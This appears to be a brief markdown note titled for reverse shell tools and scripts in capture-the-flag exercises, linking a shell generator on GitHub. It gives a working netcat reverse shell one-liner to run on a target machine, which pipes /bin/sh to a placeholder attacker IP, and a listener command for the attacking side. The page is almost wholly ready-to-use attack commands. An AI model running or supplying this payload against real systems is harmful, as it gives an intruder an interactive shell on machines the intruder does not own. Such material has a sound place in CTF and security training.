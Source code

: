 # Reverse Shell Tools and Scripts for CTFs

- [Reverse Shell Scripts Generator](https://github.com/t0thkr1s/revshellgen?tab=readme-ov-file)

### Netcat reverse shell

**On taget machine**
```
# on target machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f
```
**On Attacking machine**
```
netcat -vlp <port>
```

